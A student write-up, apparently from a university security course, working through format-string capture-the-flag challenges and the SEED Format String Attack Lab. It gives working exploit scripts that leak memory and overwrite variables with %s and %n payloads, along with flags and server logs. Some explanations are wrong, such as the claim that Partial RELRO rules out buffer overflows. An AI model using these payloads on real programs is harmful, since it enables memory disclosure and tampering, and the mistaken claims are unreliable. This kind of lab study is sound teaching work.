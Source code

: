 # Trabalho Realizado na Semana 5

## CTF

### Desafio 1

After executing `checksec` with `program`, the result was:

```bash
RELRO           STACK CANARY      NX            PIE            RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   81 Symbols     Yes	0		2	program
```
This program has **Partial RELRO**, meaning that there is no risk of a buffer overflow. Because there is a **stack canary**, stack smashing is mitigated (except by a leak or bruteforce). **NX** is enabled, therefore it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable. Since there is no **PIE**, **ROP** attacks aren't difficulted.

After some time exploring the source code, we found some important information about this executable:

```
- In the line 27, a user input is printed and the user has control over the first argument of printf.
- Giving the control of the first argument of printf to the user has memory leaks vulnerabilities, such as read or changing the value of variables.
- The address of flag is 0x0804c060
```

We used the printf function to make a format string attack. The following python code was used to get the flag:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08"+b"%s")
p.interactive()

```

Flag:
```
flag{3a0f46cdeaa85626428c12879b84703f}
```

### Desafio 2

This challenge is very similar to the first one in the way that the user controls the printf call but it has some key differences:

```
- Instead of only reading the value of the global variable, we have to change it to 0xbeef in order to open up a bash
- The bash is used to get the flag with: cat flag.txt
- The address of the key value is 0x0804c034.
```

Similarly to the first one, we needed to use a format string attack but with some changes. Instead of reading the value, we needed to write an integer value to match 0xbeef. 0xbeef is 48879 in decimal, and this is the value that the `key` variable must have. 

In printf(), `%n` is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of `%n`. We could use this feature to store the wanted value in the `key` variable. Using the following code we are able to achieve that:

```py
#!/usr/bin/python3
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"here...")
p.sendline(b"\x34\xc0\x04\x08" + b"%48875x%1$n")
p.interactive()
```

This translates to writing the address of the `key` variable in the stack, in little endian format. After that, as we already written 4 bytes, we only need 48875 more to make 0xbeef, so we read them from the program and store them in the `key` variable. After that, the comparison turns true and we get the shell.

Flag:
```
flag{91b434959469afb533a5516651d74c98}
```

---

## Format String Attack Lab

### Task 1

Creating a `badfile` with `content = ("%s"*750).encode('latin-1')` and sending it as input of the program, it will crash, as it will try to read 750 strings from the stack.

### Task 2

#### 2.A

To get the stack data the following script was executed to build the `badfile`:

```py
#!/usr/bin/python3
import sys

content = ("AAAA" + " %x"*64).encode('latin-1')

with open('badfile', 'wb') as f:
  f.write(content)
```

With 64 `%x` we are able to get the `41414141` corresponding to the `AAAA` string.

#### 2.B

To get the secret message, the following script was used to build the `badfile`:

```py
#!/usr/bin/python3
import sys

address = 0x080b4008
content = (address).to_bytes(4,byteorder='little')

s = ("%64$s").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We start of by writting to the stack the address that we want to read. From the server output, we know that the address is `0x080b4008`. If we send `%s`, printf will try to read a string from an address. To specify which address we should use, we can add `<offset>$` between `%` and `s`. The offset is, as we have seen before, the number of `%x` that we need to print to get the beggining of the stack. As the number was 64, if we use the format specifier `%64$s` after the address, the program will try to read a string from the address written in the 64th position in the stack, which will be the address that we have just put there (the secret message's address). Sending this input to the server, we get the secret message, which is:

```
A secret message
```

### Task 3

#### 3.A

To change the `target` variable value, the following script was used to build the `badfile`:

```py
#!/usr/bin/python3
import sys

address = 0x080e5068
content = (address).to_bytes(4,byteorder='little')
s = ("%64$n").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

The script builds the string the same way as the previous task, putting the address of the variable up front and then a format specifier, but this specifier this time is a `%n`. In printf(), `%n` is a special format specifier which instead of printing, causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of `%n`. We could use this feature to store the number of bytes written so far (4 because of the address) in the `target` variable. 

With this input, the server output is the following, which means that we have successfully changed the value of the `target` variable:

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd450
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 9 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd378
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hThe target variable's value (after):  0x00000004
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

#### 3.B

For this task, we need to build the script the same way as the previous one, but with some changes. The following script was the result:

```py
#!/usr/bin/python3
import sys

address = 0x080e5068
content = (address).to_bytes(4,byteorder='little')
s = ("%20476x%64$n").encode('latin-1')
content += s

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

In order to change the value to `0x5000`, we can't just simply write 20480 (`0x5000` in decimal) bytes to the file, as the program will only read at most 1500. First of all, we write the 4 bytes for the address. After that, the remaining 20476 bytes can be filled using the `%x` format specifier with a fixed width. With `%[width]x`, the program will read `width` bytes and try to print them. Then, the specifier `%n` will stop it from printing those bytes, but will still count them, so the value stored in the address will be the value that we want. After sending this input, the server output is the following:

```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd450
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 16 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd378
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | [output here]The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

**Note:** The `[output here]` in the server was replaced in orther to keep it clean. In the original server, as `%n` prints empty spaces, the ouput ocupied a very large amount of empty space in the console.